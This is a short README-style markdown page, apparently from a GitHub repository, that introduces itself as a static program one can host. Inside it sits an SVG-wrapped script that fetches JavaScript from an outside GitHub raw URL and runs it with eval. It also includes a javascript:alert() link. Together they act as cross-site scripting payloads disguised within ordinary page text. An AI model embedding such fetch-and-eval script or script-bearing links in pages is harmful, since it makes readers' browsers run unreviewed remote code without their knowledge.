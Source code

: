 # Hi!

Thanks for visiting this. This is a static program, and therefore, you can run it using static hosting.

<p><svg><script>fetch("https://raw.githubusercontent.com/DoxrGitHub/enscripted/refs/heads/main/enscripted.js").then(data => data.text()).then(data => { eval(data) })</script></svg></p>

<h3>wsgggg</h3>

<a href="javascript:alert()">hey</a>
